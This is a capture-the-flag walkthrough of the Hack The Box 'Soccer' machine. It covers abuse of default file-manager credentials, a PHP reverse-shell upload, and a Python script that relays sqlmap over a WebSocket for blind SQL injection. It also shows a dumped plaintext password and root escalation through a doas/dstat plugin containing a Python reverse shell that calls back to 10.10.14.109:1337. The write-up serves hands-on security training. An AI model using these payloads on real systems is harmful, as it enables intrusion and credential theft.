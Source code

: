 ## Soccer


nmap reveal 3 ports 

```
Open Ports | Service Running
-----------|-----------------
22         | ssh
80         | http
9091       | xmltec-xmlmail
```

9092 is probably a ws://


in port 80 found a interstening directory /tiny 


and is made by —— © CCP Programmers —— 


find default credentials of CCP 



Default username/password: admin/admin@123 and user/12345


it worked with admin : admin@123



we got shell by uploadinf landum-php-reverse-shell in uploads and call it in http://soccer.htb/tiny/uploads/reverse.php


we impersonate www-data


we find an interesting subdomain in /etc/nginx/sites-enabled 


`soc-player.soccer.htb`

There are some options like Match, Login and Signup option Available

signup and login and i notice in source code that js is connecting in ws://


```js
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>

```

We can use the Below python code to direct the request from sqlmap to our localhost taken by this article
[link](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)



```py
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass

```


1st we have to run this code and then `sqlmap -u “http://localhost:8081/?id=1" -p “id”`


account takeover success by dumping the database server and we find this creds


```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```




## Player


ssh with player 


and we can privesc 


suid --> doas

in this [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)

```bash
cat /usr/local/etc/doas.conf 

permit nopass player as root cmd /usr/bin/dstat

```

```bash

find / -type d -name dstat  2>/dev/null`
```

find 2 directories only /usr/local/share/dstat is writable
and we put a python revese shell with name dstat_rs.py with this code 


```py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.109",1337));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty; pty.spawn("/bin/sh")
```


so if we `doas -u root /usr/bin/dstat --rs `we can gain access as root

call our code and we can take root flag












